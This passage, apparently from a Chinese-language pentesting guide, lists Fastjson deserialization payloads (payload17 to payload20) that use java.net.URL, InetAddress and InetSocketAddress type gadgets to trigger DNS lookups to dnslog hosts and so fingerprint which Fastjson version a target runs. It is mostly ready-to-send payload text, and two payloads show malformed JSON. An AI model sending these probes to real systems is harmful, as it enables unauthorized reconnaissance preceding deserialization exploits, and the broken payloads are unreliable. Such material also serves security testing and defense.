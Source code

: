 ```plain
{{"@type":"java.net.URL","val":"http://rpdmvyfajp.dgrh3.cn"}:"aaa"}
```

### 2.2.3 判断 1.2.9<=version<=1.2.47

`payload17`：

```plain
{"username":{"@type":"java.net.InetAddress","val":"bjmgclhjrs.dgrh3.cn"}, "password":"admin"}
```

需要注意，有时候会报错如下，但是`dnslog`仍然会收到请求，这个是目标服务器的问题，多试就可以了：

```plain
deserialize inet adress error
```

### 2.2.4 判断 1.2.10<=version<=1.2.47

`payload18`：

```plain
[{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},{"@type":"java.io.ByteArrayOutputStream"},{"@type":"java.net.InetSocketAddress"{"address":,"val":"6m2csu.dnslog.cn"}}]
```

除非对方有以下代码，否则`1.2.47`以后的版本都会报错：

```plain
ParserConfig.getGlobalInstance().addAccept("java.lang.Class");
ParserConfig.getGlobalInstance().addAccept("java.io.ByteArrayOutputStream");
```

### 2.2.5 判断 1.2.9<=version<=1.2.36

`payload19`：

```plain
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://tbqnrzguzp.dgrh3.cn"}}""}
```

如果不报错、`dnslog`**无响应**，说明版本处于`1.2.9`至`1.2.36`。

### 2.2.6 判断 1.2.37<=version<=1.2.83

还是上面的`payload19`，如果`dnslog`有响应，说明处于`1.2.37`和`1.2.83`之间。

### 2.2.7 判断 1.2.9<=version<=1.2.83

`payload20`：

```plain
Set[{"@type":"java.net.URL","val":"http://wobfyhueao.dgrh3.cn"}]
```

### 2.2.8 判断 version≠(1.2.24 || 1.2.83)
